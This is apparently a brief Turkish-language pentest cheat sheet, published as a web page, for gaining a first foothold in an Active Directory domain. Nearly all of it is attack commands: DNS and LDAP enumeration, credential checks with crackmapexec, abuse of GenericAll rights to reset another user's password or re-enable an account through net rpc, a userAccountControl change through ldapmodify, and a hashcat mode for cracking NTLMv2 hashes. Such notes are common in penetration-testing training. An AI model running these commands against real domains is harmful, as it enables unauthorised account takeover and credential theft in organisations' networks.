 ```yaml
---
layout: page
title: "Ad Ortamina İlk Giris"
permalink: /linux/ad-ortamina-giris/
---
```


```bash
dig any @ip hostname
```

```bash
crackmapexec smb IP-ADRESI -u Test1 -d test.local -p "Passwd123"
```

```bash
ldapsearch -x -H ldap://IP -D "username@hostname" -w "Passwd123" -b "" -s base
```


GenericAll Yetkisi varsa
```bash
net rpc password TARGETUSERNAME 'YeniParola123..' -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local

veya!!!!

net rpc user enable TARGETUSERNAME -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local
```

```bash
ldapmodify -x -H ldap://dc.test.local -D 'MevcutKullanıcı@test.local' -w 'Passwd123' <<EOF
dn: HEDEFLENEN KULLANICI DN
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF
 ile kullancııy etkilenştirir 514 inaktif demek.
```


ntlmv2 -> hashcat -m 5600 
